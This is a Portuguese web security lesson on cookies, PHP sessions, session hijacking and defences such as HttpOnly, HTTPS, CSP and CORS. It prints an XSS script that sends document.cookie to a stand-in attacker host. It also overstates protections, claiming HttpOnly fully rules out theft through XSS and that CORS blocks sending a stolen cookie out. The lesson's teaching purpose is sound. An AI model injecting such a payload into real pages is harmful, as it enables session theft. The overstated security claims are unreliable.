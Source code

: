 # Cookies e sessões

## Cookies

_Cookies_ são pequenos fragmentos de informação que um site pode armazenar no computador do usuário para uso posterior. Eles são muito úteis uma vez que o protocolo HTTP não apresenta nenhum meio de tornar as informações de uma conexão persistentes. Se dependêssemos apenas das conexões HTTP, seria impossível, por exemplo, usar um carrinho de compras, pois ao trocar para a página de compra as informações seriam perdidas.

Em um site de jogos de navegador, é muito comum que o progresso do jogo seja salvo em _cookies_, no navegador. Os _cookies_ também são bastante usados para armazenar configurações do cliente, como volume do _player_ de música, cor do fundo do site etc.

Geralmente, os navegadores limitam o tamanho que um _cookie_ pode ter para 4KB, além de apagar _cookies_ que já tiveram sua validade vencida.

Exemplo de _cookie_ feito em PHP:

```php
<?php
    // cookies.php

    if (isset($_COOKIE['cookie_teste'])) {
        echo 'Você JÁ passou por aqui!';
    } else {
        echo 'Você NUNCA passou por aqui.'; 
        //Pode ser que você tenha passado há uma hora, mas o servidor não tem como saber
        setcookie('cookie_teste', 'Algum valor...', time() + 3600);
    }
?>
```

Retirado de [https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html](https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html).

Esse código implementa um conceito similar à sessão \(mas ainda não é uma\). Nesse caso, um certo conteúdo pode ser exibido de acordo com o intervalo de tempo desde a última visita. O _cookie_ no código possui uma hora de "vida" \(3600 segundos\).

Um _cookie_ é de acesso limitado ao site que o criou, de modo a garantir que um site mal intencionado não roube os _cookies_ que o site do seu banco armazenou no seu computador por exemplo.

## Sessões

Agora, vamos ao que, no momento, mais nos interessa. **Os** _**cookies**_ **podem ser usados como forma de autenticação**, geralmente armazenando o id de uma **sessão**. É devido às sessões que é possível logar automaticamente em redes sociais - sem precisar entrar com suas credenciais - por muito tempo. Quando o usuário conecta-se, uma sessão é iniciada e o id dessa sessão é salvo em um _cookie_ em seu computador. Este será usado mais tarde para informar ao servidor que o usuário já possui um sessão ativa \(e, portanto, não é preciso entrar com usuário e senha novamente\). A maioria dos sites que implementam esse recurso estabelecem uma data de expiração da sessão, de modo a invalidar o id salvo no _cookie_.

A grande diferença aqui é que **a sessão é armazenada no servidor**, enquanto **o** _**cookie**_ **é armazenado localmente**.

Exemplo de sessão em PHP:

```php
<?php
    // sessions.php

    session_start();

    if (isset($_SESSION['usuario'])) {
        echo "Bem vindo {$_SESSION['usuario']}!";
    } else {
        echo 'Você NUNCA passou por aqui.';
        $_SESSION['usuario'] = 'João';
    }
?>
```

Retirado de [https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html](https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html)

## Falhas

### Uso inocente de _cookies_

É necessário saber como usar os _cookies_. Um exemplo exagerado de mau uso seria um site que lê e salva um _cookie_ `admin=1` para admins e `admin=0` para usuários normais. Na primeira conexão, o _cookie_ não existe, então o site manda o _browser_ salvar `admin=0`. Quando o usuário entra com uma conta de administrador, o site manda o _browser_ mudar o _cookie_ para `admin=1` e o site exibe conteúdo que não era visível. Lindo, não? O problema com essa forma de autenticação é que bastaria o usuário editar o próprio _cookie_ e alterar o conteúdo \(de `admin=0` para `admin=1`\) para se tornar administrador do site, burlando todo o "sistema de segurança".

### Session Hijacking \(Sequestro de Sessão\)

Certo, essa foi uma falha bem besta, mas e se em vez de `admin=0`, o _cookie_ fosse `PHPSESSID=somesessionid` - um _cookie_ identificador de uma sessão legítima?

Basta alguém conseguir ler esse _cookie_ para ter acesso à conta atrelada à sessão. Esse ataque é chamado de **Session Hijacking** \(Sequestro de Sessão\).

Não há como evitar que alguém com acesso físico ao seu computador \(com o navegador aberto na página\) obtenha sua sessão, mas se isso ocorreu ele já tem muito mais "poder" sobre seus dados e sessões.

O que é possível é evitar que pessoas mal intencionadas obtenham sua sessão por meio de outros ataques, como **XSS \(Cross-Site-script\)** e **MITM \(Man-In-The-Middle**\). O segundo ataque caracteriza-se, basicamente, por haver um atacante entrando no meio de uma conexão não encriptada \(HTTP\) e lendo todo o tráfego entre a vítima e o site, incluindo os _cookies_ enviados e a sessão. Já o primeiro ataque resume-se no atacante injetar código na página de alguma forma. Esse código injetado pode, em certos casos, ler, modificar e até enviar o conteúdo dos _cookies_ armazenados para algum outro servidor. \([Ler mais sobre XSS](xss.md)\)

#### Exemplo de Session Hijacking por meio de XSS

```markup
<script type="text/javascript">
    new Image().src="http://www.sitedoatacante.com.br/cookies.php?c="+encodeURI(document.cookie);
</script>
```

Fonte: [http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/](http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/)

Esse script colocado pelo atacante na página adiciona uma "imagem" na página. O navegador acessa o link indicado para baixar a imagem, mas no link é passado o cookie como parâmetro e o atacante usa um _script_ no site dele para salvar o _cookie_ que possui a sessão. Pronto, agora ele pode entrar na conta e fazer o que quiser! É por essa e por outras que alguns sites pedem para o usuário digitar novamente a senha ao alterar informações sensíveis da conta, como e-mail de recuperação e senha.

## Remediações

* Ataque XSS: definir os _cookies_ com a política HTTP-Only \(Leia abaixo\)
* Ataque MITM: criptografar a conexão, usando HTTPS \([Ler Mais](protocolo_https.md)\)

## Extras

### HTTP-ONLY

É sempre bom evitar brechas para ataques XSS, logo uma camada extra de proteção nunca é de mais. Um _cookie_ do tipo HTTP-Only não pode ser modificado por meio de código Javascript, seja ele legítimo \(da página original\) ou injetado.

Dessa forma, é garantido que não haverá qualquer possibilidade de um _cookie_ ser roubado por meio de injeção de código \(XSS\).

Como definir um _cookie_ como HTTP-Only em PHP:

```php
//Template:
//setcookie ($name, $value, $expire, $path, $domain, $secure, $httponly);

//Definindo de fato:
setcookie("TesteCookie", "123456", 0, "/", "example.com", false, true);

//Ou, se preferir definir direto no header da response:
header("Set-Cookie: nome=valor; path=/; httpOnly" );
//É desse jeito que os cookies aparecem para o atacante que observa as respostas do servidor

//Por padrão, ao criar uma sessão no PHP, é criado um cookie usado para
//controlar o acesso do usuário na sessão. Normalmente o cookie é chamado
//PHPSESSID. Na configuração padrão esse cookie não é httpOlny. Para ativar o
//parâmetro httpOnly no cookie de sessão do PHP, setar a diretiva
//session.cookie_httponly no php.ini para true:
session.cookie_httponly = true
```

Fonte: [http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/](http://www.douglaspasqua.com/2012/01/14/seguranca-cookies-httponly/)

### CSP e CORS

CSP - Content Security Policy - é um _header_ na conexão HTTP ou HTTPS que indica ao navegador diversas medidas de segurança, visando à blindagem contra XSS.

CORS - Cross-Origin Resource Sharing - é um _header_ que o site passa para o navegador, dizendo com quais sites ele pode se conectar por meio da página atual. Esse recurso evita que XSS consiga enviar o _cookie_ roubado para o site do atacante \(ainda é possível burlar isso com callbacks em alguns casos\).

[Leia mais na aula de XSS](xss.md)

## Leia Mais

[https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html](https://klauslaube.com.br/2012/04/05/entendendo-os-cookies-e-sessoes.html)  [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy)  [https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)  [https://developer.mozilla.org/en-US/docs/Tools](https://developer.mozilla.org/en-US/docs/Tools)
